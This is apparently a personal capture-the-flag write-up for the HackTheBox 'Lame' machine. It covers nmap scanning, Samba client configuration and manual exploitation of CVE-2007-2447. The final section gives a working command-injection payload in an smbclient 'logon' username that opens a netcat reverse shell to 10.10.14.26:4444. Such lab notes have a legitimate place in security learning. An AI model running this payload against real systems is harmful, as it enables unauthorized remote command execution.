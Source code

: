 * solution:
  1. nmap
  #+begin_src sh
nmap -sC -sV -oA Lame.nmap <ip>
    ## find smb service with version
  #+end_src
  #+NAME: nmap result
  [[./nmap.png]]
  2. (since ftp backdoor does not work), search <smb 3.0.20>
      + CVE-2007-2447 (msfconsole will give this result)

* problems:
  1. had to use smb version NT1 to connect server. 
  #+begin_src sh
## /etc/samba/smb.conf::[global], add the following line:
client min protocol = NT1
  #+end_src

  
* CVE-2007-2447 manual script:
   + config smbclient to use NT1
   + enumerate the smb directory, find where anonymous login is possible:
   #+begin_src sh
smbclient -L //ip -m NT1
   #+end_src
   
   + anonymous login to /tmp
   #+begin_src sh
smbclient //ip/tmp -m NT1
   #+end_src

   + use the logon script:
   #+begin_src sh
logon "/=`nohup rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.26 4444 >/tmp/g;rm /tmp/g`" ""
     ## logon “/= `<payload>`”
     ## based on CVE-2007-2447, the logon script did not censor user input properly, as a result, the script enclosed within the backtips is executed.
     ## vuln at source/smbd/map_username.c
     ## internal of the vuln: https://0x00sec.org/t/cvexplained-cve-2007-2447/22748
   #+end_src

